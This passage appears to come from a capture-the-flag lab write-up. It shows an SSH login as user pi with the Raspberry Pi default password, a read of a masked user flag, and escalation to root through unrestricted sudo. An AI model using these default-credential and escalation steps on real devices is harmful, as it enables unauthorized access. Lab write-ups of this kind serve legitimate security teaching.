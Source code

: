```

oxdf@hacky$ sshpass -p raspberry ssh pi@10.10.10.48
...[snip]...
pi@raspberrypi:~ $

```

It worked. I’ll grab `user.txt`:

```

pi@raspberrypi:~/Desktop $ cat user.txt
ff837707************************

```

## Shell as root

pi can run `sudo` as root for any command:

```

pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

```

`sudo su -` returns a root shell:

```

pi@raspberrypi:~/Desktop $ sudo su -

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~#

```

I use `-` at the end to tell `su` I want root’s environment variables, so it puts the shell in root’s homedirectory, etc. With or without the `-` get where I need to be here.

`sudo -i` also works:

```

pi@raspberrypi:~ $ sudo -i
...[snip]...
root@raspberrypi:~#

```
